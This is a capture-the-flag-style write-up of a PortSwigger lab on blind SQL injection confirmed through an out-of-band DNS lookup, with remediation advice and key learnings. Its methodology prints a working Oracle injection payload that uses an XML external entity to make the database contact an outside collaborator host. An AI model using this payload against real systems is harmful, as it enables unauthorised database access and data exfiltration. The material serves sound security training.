


## Lab-09: Blind SQL Injection with Out-of-Band Interaction

# Lab Information
- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (Blind)
- **Difficulty:** Practitioner
- **Status:** Solved

# Objective
Exploit a blind SQL injection vulnerability where the application gives no visible difference between true and false conditions, no visible errors, and no observable time delay in the response, by using an out-of-band (OOB) channel, triggering a DNS lookup to an external server, to confirm the injection.

# Vulnerability
The application uses a "TrackingId" whose value is inserted directly into a SQL query on the backend, without sanitization or parameterization. The applications response gives no indication of whether an injected condition is true or false, and standard blind techniques like conditional errors or time delays are not usable or reliable in this scenario. However, the backend database Oracle supports functions that can trigger an outbound network request, such as a DNS lookup, to an external domain. Triggering this lookup, independent of the HTTP response, proves the injection is working.

# Methodology
1) Access the lab by clicking on ACCESS THE LAB button. And connect to the burp to your browser.
2) In browser click on Home link text, you will see the 'Get /' URL is captured under HTTP history of burp right click on it and send it to repeater.
3) Open the collaborator tab beside repeater, click on copy to clip board and inject it in next payload.
4) Payload:-
 '||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://collaborator-URL-paste-here/"> %remote;%>]>'),'/l') inject it aftertend of trackingid FROM dual)-- -> click send, you will see response with needed value, send collaborator do poll now, you will see the 200 ok and in collaboratory URL's of DNS lookups, and you see the lab was solved.

# Evidence

# Root Cause
User input from the "TrackingId" cookie is concatenated directly into a SQL query, and the database account used by the application has permission to execute functions capable of making outbound network requests. Combined with the lack of any visible feedback in the HTTP response, this forces reliance on an out-of-band channel, but the underlying flaw is the same, unsanitized input is executed as part of a SQL query.

# Remediation
- Use parameterized queries/prepared statements so user input is always treated as data, never as SQL query.
- Apply least privileges to the database account used by the application, and disable or restrict network capable functions "UTL_HTTP", "DBMS_LDAP", "XMLTYPE" external entity resolution, unless explicitly required.
- Block or monitor outbound DNS/HTTP traffic from the database server to detect exfiltration attempts.
- Avoid using user controlled inputs including cookies, in SQL queries without validation.

# Key Learnings
- Out-of-band techniques are used when an application gives no visible or timing based feedback at all, by making the database interact with an external server the attacker controls.
- Burp Collaborator is a practical tool for detecting and confirming OOB interactions DNS, HTTP triggered by blind injection payloads.
- Database functions capable of making network calls common in Oracle, but also present in other engines via extended stored procedures significantly widen the impact of a SQL injection vulnerability, since they can be used for both detection and full data exfiltration.
- Restricting outbound network access from database servers is an important defense-in-depth control, independent of fixing the injection itself.
